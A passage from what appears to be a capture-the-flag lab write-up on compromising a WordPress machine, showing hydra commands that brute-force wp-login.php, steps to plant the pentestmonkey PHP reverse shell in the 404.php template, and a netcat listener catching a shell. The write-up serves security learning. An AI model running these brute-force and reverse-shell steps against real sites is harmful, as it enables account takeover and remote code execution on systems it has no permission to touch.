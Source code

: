 ```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ hydra -L fs_short.txt -p UNKNOWN 10.10.222.86 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.168.139%2Fwp-admin%2F&testcookie=1:F=Invalid"
...snip..
[80][http-post-form] host: 10.10.222.86   login: DISCOVERED_USERNAME   password: UNKNOWN
```
Having found the username, we repeat the attack for the password, discarding all results that include the text "The password you entered" :

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ hydra -l DISCOVERED_USERNAME -P fs_short.txt 10.10.222.86 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.168.139%2Fwp-admin%2F&testcookie=1:F=Invalid"   
...snip...
[80][http-post-form] host: 10.10.222.86   login: DISCOVERED_USERNAME   password: DISCOVERED_PASSWORD
```

Enter the discovered credentials at the login page to reach the Wordpress admin dashboard. (While doing this write-up I realiised that these credentials are also hidden on one of the routes discovered by gobuster - I'll leave that exercise to the reader. Try curling the pages if you don't find anything in the browser.)

## 3. Foothold 2 : php reverse shell

Access to the admin dashboard allows us to modify the content of the site. In Wordpress's PHP environment, any code added to an existing page will be executed on the server when that page is requested. To exploit this feature, we'll be using a [PHP reverse shell provided by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Make sure to update the shell with the IP and port of your attack machine on lines 49-50 :

```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
On the admin dashboard, we select "Appearance" -> "Editor" from the menu on the left. We then select the `404.php` template from the "Templates" list on the right, replace the existing code with the updated reverse shell code and click the "Update File" button in the bottom left. We then start a listener on the attack machine and navigate to a route that will return the 404 page (`curl $IP/wp-admin/this-does-not-exist`) : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 12321
listening on [any] 12321 ...
connect to [ATTACK_IP] from (UNKNOWN) [10.10.222.86] 45400
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
...snip...
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
